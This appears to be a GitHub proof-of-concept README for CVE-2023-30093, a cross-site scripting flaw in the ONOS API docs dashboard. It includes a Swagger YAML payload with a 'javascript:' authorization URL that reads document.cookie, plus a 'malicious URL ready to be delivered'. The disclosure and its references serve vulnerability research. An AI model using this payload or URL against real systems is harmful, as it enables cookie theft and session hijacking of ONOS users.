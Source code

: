 # CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093: [@edoardottt Youtube video](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: http://localhost:8181/onos/v1/docs/

Payload: 
```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

Malicious URL ready to be delivered: http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml

References
------
- https://www.edoardoottavianelli.it/CVE-2023-30093
- https://nvd.nist.gov/vuln/detail/CVE-2023-30093
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093
- https://github.com/advisories/GHSA-q63q-hwf6-3mw6
- https://www.tenable.com/cve/CVE-2023-30093
- https://www.opencve.io/cve/CVE-2023-30093
- https://avd.aquasec.com/nvd/2023/cve-2023-30093/
- https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5497342

<br>

Useful links while researching for this CVE:

- https://github.com/swagger-api/swagger-ui/pull/3848
- https://github.com/swagger-api/swagger-ui/issues/3847
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef
- https://security.snyk.io/vuln/npm:swagger-ui:20171031
- https://security.snyk.io/vuln/npm:swagger-ui:20160721
- https://security.snyk.io/vuln/npm:swagger-ui:20160901
